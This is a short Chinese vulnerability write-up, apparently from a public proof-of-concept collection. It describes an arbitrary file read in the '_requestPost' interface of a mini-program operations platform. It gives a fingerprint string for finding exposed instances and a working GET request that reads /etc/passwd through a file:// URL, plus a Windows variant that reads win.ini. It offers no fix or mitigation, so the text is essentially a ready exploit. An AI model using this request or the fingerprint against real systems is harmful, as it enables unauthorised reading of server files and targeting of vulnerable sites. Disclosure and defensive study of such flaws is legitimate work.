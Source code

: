 # 全行业小程序运营系统接口_requestPost存在任意文件读取漏洞

# 一、漏洞简介
全行业小程序运营系统是一个无需编程，各行业模版直接套用，一键生成，轻松搭建小程序，界面自由DIY，同步实时预览，可视化操作让您所见即所得，随心打造个性小程序。全行业小程序运营系统接口_requestPost存在任意文件读取漏洞

# 二、影响版本
全行业小程序运营系统

# 三、资产测绘
```plain
"/com/css/head_foot.css"
```

![1721066404678-898e96b4-2cea-4e70-9dac-653d60e96720.png](./img/bH9l78edGUcZCbQD/1721066404678-898e96b4-2cea-4e70-9dac-653d60e96720-692946.png)

# 四、漏洞复现
```plain
GET /api/wxapps/_requestPost?url=file:///etc/passwd&data=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```

![1721067419506-8c5e67ed-72de-4ba9-86f6-3fd3fd3f9a0d.png](./img/bH9l78edGUcZCbQD/1721067419506-8c5e67ed-72de-4ba9-86f6-3fd3fd3f9a0d-553972.png)

```plain
/api/wxapps/_requestPost?url=file:///C:/windows/win.ini&data=1
```

![1721067536077-3ea5d227-9a72-4564-b33c-443cef0742f5.png](./img/bH9l78edGUcZCbQD/1721067536077-3ea5d227-9a72-4564-b33c-443cef0742f5-856042.png)



> 更新: 2024-08-12 17:16:00  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xhsw1s8g1fmxb8nf>